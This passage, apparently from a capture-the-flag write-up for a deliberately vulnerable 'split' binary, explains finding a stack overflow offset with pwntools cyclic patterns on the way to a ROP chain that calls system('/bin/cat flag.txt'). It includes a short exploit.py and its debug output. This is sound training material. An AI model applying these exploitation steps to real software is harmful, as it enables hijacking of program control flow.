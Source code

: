 `usefulFunction()` invokes `/bin/ls`, however, we want to dump the flag's contents to stdout.
Our goal is to build a ROP chain to call `system("/bin/cat flag.txt")`. 

## Find the Crashing Offset

Ok, let's crash the app so we can find the offset in the stack buffer overflow where we can take control of the RIP register.
We can find the offset by generating [sequential chunks of De Brujin sequences](https://docs.pwntools.com/en/stable/util/cyclic.html) with pwntools' `cyclic()` function.
When the application crashes, the RSP (Stack Pointer) register will return to an offset within our sequence which we can lookup. When the program returns, the RIP register (Instruction Pointer Register) will be set to this value, relinquishing it's execution flow to us.

Once the app crashes, we lookup the value of the RSP register from the core dump and lookup the value with pwntools' `cyclic_find()` function. That will give us the offset from where we can take control of the RIP regsiter:

### exploit.py

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './split'

# Start the process
io = process(PROCESS)

# Attach a debugger
gdbscript = ""
pid = gdb.attach(io, gdbscript=gdbscript)

# Send a cyclic pattern
io.sendline(cyclic(128))

# Wait for the process to crash
io.wait()
```

```
$ python3 exploit.py
[+] Starting local process './split' argv=[b'./split'] : pid 3156
[*] running in new terminal: /usr/bin/gdb -q  "./split" 3156
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./split" 3156']
[+] Waiting for debugger: Done
[DEBUG] Sent 0x81 bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab\n'

```

